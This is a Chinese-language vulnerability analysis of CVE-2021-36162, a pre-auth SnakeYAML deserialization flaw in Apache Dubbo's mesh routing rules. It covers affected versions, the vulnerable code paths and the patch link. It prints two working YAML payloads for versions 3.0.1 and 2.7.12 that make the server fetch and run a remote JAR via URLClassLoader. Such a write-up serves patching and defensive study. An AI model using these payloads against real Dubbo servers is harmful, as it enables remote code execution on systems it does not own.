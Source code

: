 ```yaml
---
sidebar_position: 1
tags: [CVE, Dubbo, Deserialization, SnakeYaml]
---
```


# CVE-2021-36162 Apache Dubbo Mesh Yaml pre-auth 反序列化漏洞 GHSL-2021-094

## 概述

### 影响版本

[2.7.0, 2.7.12]、[3.0.0, 3.0.1]

## 复现分析

首先看一下 [漏洞披露邮件](https://lists.apache.org/thread/pmpft2lgbtjcdbpx6mg0x2cko3hq4tpn) 是这样描述的，Dubbo 支持配置覆盖，这些配置被加载到配置中心（Zookeeper, Nacos等）。Dubbo 可以配置 [Mesh App rules](https://github.com/apache/dubbo/commit/489f4884b73f113e2459810e4dbdb4f8ea543d78#diff-10e320e054e307aff87444e1f2cb4b4415406aa4785605f36039fbf567117133) 规则使得 customer 请求到正确端点，该过程由 yaml 解析，所以存在预授权反序列化。

### 3.0.1 MeshAppRuleListener

而在 `org.apache.dubbo.rpc.cluster.router.mesh.route.MeshAppRuleListener#receiveConfigInfo()` 方法中存在未经验证的 YAML 调用。利用思路比较简单，就是控制注册中心后添加恶意 Yaml。

![image-20240202175119904](attachments/image-20240202175119904.png)

`receiveConfigInfo()` 通过 `org.apache.dubbo.rpc.cluster.router.mesh.route.MeshRuleManager` 调用，即 consumer 从注册中心订阅应用的配置信息。

![image-20240203122045093](attachments/image-20240203122045093.png)

payload

```
---
!!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
    ]]
]
```

### 2.7.12 MigrationRule

2.7.12 利用类是 `org.apache.dubbo.rpc.cluster.support.migration.MigrationRule` ，因为定义了 Constructor，所以要封装一下。

![image-20240203132353051](attachments/image-20240203132353051.png)

payload

```
!!org.apache.dubbo.rpc.cluster.support.migration.MigrationRule {
    key: 
        !!javax.script.ScriptEngineManager [
            !!java.net.URLClassLoader [[
                !!java.net.URL ["http://127.0.0.1:1234/SnakeyamlDemo-1.0.jar"]
            ]]
        ]
}
```

## 补丁

https://github.com/apache/dubbo/pull/8350

